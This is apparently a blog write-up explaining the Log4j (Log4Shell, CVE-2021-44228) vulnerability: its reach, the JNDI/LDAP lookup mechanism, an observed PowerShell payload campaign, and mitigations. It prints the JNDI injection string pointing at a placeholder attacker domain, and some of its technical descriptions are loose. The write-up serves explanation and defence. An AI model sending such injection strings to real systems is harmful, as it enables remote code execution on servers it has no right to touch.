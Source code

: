 ```yaml
---
layout: post
title: Brief writeup about Log4j
subtitle: report write-up on log4j vulnerability
tags: [tracelay-writeup]
odate: 21-12-2022
pdate: 01-01-2023
---
```

Seriousness of a vulnerability is viewed with two factors: 
1. the sheer number of systems that are vulnerable, and 
2. the ease with which an attacker can compromise a network

The vulnerability is associated with the user activity logger known as Log4J - a logging library freely distributed by the Apache Software Foundation. A security researcher working for Alibaba, Chen Zhaojun, first discovered the vulnerability and reported it to Apache on November 24, 2021 and since Dec 2021, Log4j was considered as a serious threat to come down the pipe in recent years. 

## What is Log4j and how impactful is the vulnerablity?
Log4j is a very popular Java library that has been around since 2001 and is used by countless pieces of software to log activity and error messages. Log4j will log messages in software and scan them for errors. The logging capabilities allow it to communicate with other internal functions on systems, such as directory services. This creates the opening for the vulnerability where remote code executions (RCE) allow an attacker to execute arbitrary code on a remote device.

Java is implemented across a wide spread range of digital products including cloud solutions, web servers, and apps making each of these products vulnerable to exploitation through the Log4Shell vulnerability. Hence, any Java software running systems can be impacted which is *a lot* of systems.

Because this security flaw is so widespread and most organizations are unaware that they're impacted, an exploitation frenzy is currently underway in the cybercriminal world. Security researchers have identified approximately **10 million Log4Shell exploitations attempts every hour**. Retail Industry is the most hard hit, followed by technology, financial services, manufacturing services and healthcare providers.

The [vulnerability CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) has been given the Critical rating and the highest threat score possible (10.0) by the Common Vulnerability Scoring System (CVSS), the industry standard for at-a-glance assessments of the severity of security vulnerabilities.

## How it's exploited
Lightweight Directory Acess Protocol (LDAP) is a open-source application protocol that allows apps to access and authenticate specific user info across directory services. Employees need to regularly access usernames, passwords, email addresses, endpoints, and printers to fulfill their daily tasks. Such information is stored on company directories and LDAP is the protocol that efficiently connects users and applications to this information.

LDAP maps usernames to passwords, the protocol to authenticate users. Thus allows single sign-on (SSO), where users need to sign in only once to access all protected files and applications.

The vulnerable Log4j library, when passed a specially crafted string, will call out to an LDAP server, download the code hosted in the LDAP directory, and then execute that code. 

The vulnerability occurs due to a lack of sanitization in the lookup method used in the log4j library. An attacker can leverage JNDI (Java Naming and Directory Interface) to perform a request to a remote malicious resource as follows: 
`==${jndi:ldap://[attacker_domain]/file}==`

Using different protocols such as ldap, rmi and commands like upper/ lower, an attacker can create multiple attack string combinations. In addition, many obfuscation techniques are observed to avoid detection:

![](../../../assets/images/log4j/exploit_variants.png)

This allows cybercriminals to create a malicious LDAP server that stores code designed to take-over any server where it is executed, and then send applications/databases/APIs the string that points to their code.

The primary attack is to feed messages to Log4j that instruct the system to download malicious powershell script (018h4xuvxe) and execute malware from a remote server, which then grants the attacker greater access to the victim’s system.

![](../../../assets/images/log4j/Log4j.png)

The IP 2.56.59[.]123 that contains the link for payload by HTTP request downloads the paylaod and executes the powershell script. Malware script can be written with persistence functionalities to maintain access even if the system restarts. 

## Safety Measures
1. Quickest way to mitigate is to update all instances of Log4j to the latest version - Log4j 2.17.x and latest version available
2. Utilise custom built Log4j Vulnerability scanners made by numerous popular and trusted security vendors from the Open Source - like CISA, Huntress, Arctic Wolf, CrowdStrike, Amazon Inspector & AWS, etc.,
3. Disable JNDI - A design flaw in the JNDI Lookup plugin is primarily to blame for this critical vulnerability. JNDI facilitates code execution based on data found in the log, data that can easily be manipulated since its accepted by the logger without sanitation.
4. Update all firewall and IPS and use NGFW
5. Implement MFA
